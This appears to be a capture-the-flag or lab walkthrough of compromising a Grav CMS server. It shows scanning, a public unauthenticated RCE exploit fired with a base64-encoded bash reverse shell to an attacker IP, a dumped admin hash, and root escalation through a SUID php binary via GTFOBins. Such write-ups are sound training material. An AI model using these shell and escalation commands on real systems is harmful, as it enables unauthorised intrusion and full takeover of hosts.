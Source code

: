 `nmap -A -T4 -p- 192.168.225.12`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Index of /
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 4 hops
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   49.58 ms 192.168.45.1
2   49.56 ms 192.168.45.254
3   50.21 ms 192.168.251.1
4   50.47 ms 192.168.225.12
```


First thing I notice is the `grav-admin/` directory listing. Which doesn't appear to have much besides a successful installation message.

![](Images/Pasted%20image%2020250509115119.png)

Lets do some further enumeration.

```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://192.168.225.12/grav-admin/FUZZ
```

```
images                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 396ms]
home                    [Status: 200, Size: 14014, Words: 2089, Lines: 160, Duration: 479ms]
login                   [Status: 200, Size: 13967, Words: 3067, Lines: 190, Duration: 623ms]
user                    [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 380ms]
assets                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 355ms]
admin                   [Status: 200, Size: 15508, Words: 4330, Lines: 139, Duration: 667ms]
bin                     [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 232ms]
system                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 73ms]
cache                   [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 225ms]
vendor                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 127ms]
backup                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 62ms]
logs                    [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 133ms]
forgot_password         [Status: 200, Size: 12383, Words: 2246, Lines: 155, Duration: 1508ms]
tmp                     [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 123ms]
```

After testing some basic default cred options I moved on to searching for exploits. We find an unauthenticated RCE [here](https://www.exploit-db.com/exploits/49973)

Fix our exploit script by adjusting target host and adjust the payload as explained in the POC.

```
echo -ne "bash -i >& /dev/tcp/192.168.45.244/80 0>&1" | base64 -w0 
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjI0NC84MCAwPiYx

target= "http://192.168.225.12/grav-admin"
```

Executing that with a listener gets us our shell.

![](Images/Pasted%20image%2020250509121635.png)

We don't have any permissions to read the user directory `alex` which I assume holds a local flag for us so we will have to escalate first. I will save the root directory in case we need to come back. In the meantime I am going to run some automated enumeration to see if we can find anything.

```
/html/grav-admin
```

We find a potential escalation path in the form of a scheduled task but that appears to be our initial access after checking the directories.

![](Images/Pasted%20image%2020250509122517.png)

Within the web server directory I found the accounts directory which has the salted admin hash `$2y$10$dlTNg17RfN4pkRctRm1m2u8cfTHHz7Im.m61AYB9UtLGL2PhlJwe.` but I don't think that leads us anywhere.

After hitting a road block and resetting the instance to be safe, I found a SUID Binary we did not have before

![](Images/Pasted%20image%2020250509124953.png)

Lets see if GTFO bins has something about this.

```
CMD="/bin/sh"
/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"
```

Which gets us escalation through the SUID.

![](Images/Pasted%20image%2020250509125230.png)








